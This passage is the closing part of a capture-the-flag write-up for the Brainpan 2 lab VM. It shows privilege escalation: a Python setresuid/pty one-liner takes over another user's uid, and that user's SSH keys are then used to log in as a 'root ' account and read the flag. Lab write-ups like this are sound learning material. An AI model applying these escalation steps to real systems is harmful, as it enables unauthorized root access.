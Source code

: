 ```bash
Permission denied (publickey,password).
```
We still can't login, but notice our uid is still as the anansi user while just euid is puck. You can change this with some more C code or use python to set our uid to puck's 1001. 
```bash
$ id                                               
uid=1000(anansi) gid=1000(anansi) euid=1001(puck) groups=1001(puck),50(staff),1000(anansi)            
$ python -c 'import os,pty;os.setresuid(1001,1001,1001);pty.spawn("/bin/bash");'
bash: /home/anansi/.bashrc: Permission denied
puck@brainpan2:/home/puck/.ssh$ id
id
uid=1001(puck) gid=1000(anansi) groups=1001(puck),50(staff),1000(anansi)
```
At this point we should be able to use those keys:
```bash
puck@brainpan2:/home/puck/.ssh$ ssh -l "root " brainpan2 -p 2222
ssh -l "root " brainpan2 -p 2222
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  7 11:00:06 2013
root @brainpan2:~# id
id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# cat /root/flag.txt
cat /root/flag.txt

                          !!! CONGRATULATIONS !!!

                 You've completed the Brainpan 2 challenge! 
                 Or have you...? 

                 Yes, you have! Pat yourself on the back. :-)

                 Questions, comments, suggestions for new VM
                 challenges? Let me know! 


                 Twitter: @superkojiman
                 Email  : contact@techorganic.com
                 Web    : http://www.techorganic.com
```
Is that the final step? I've heard it's possible to exploit the brainpan-1.8 binary which we never tried but otherwise I think it's all over. So that was an awesome time, thanks for creating it @superkojiman I will be looking forward to checking out brainpan3 next.













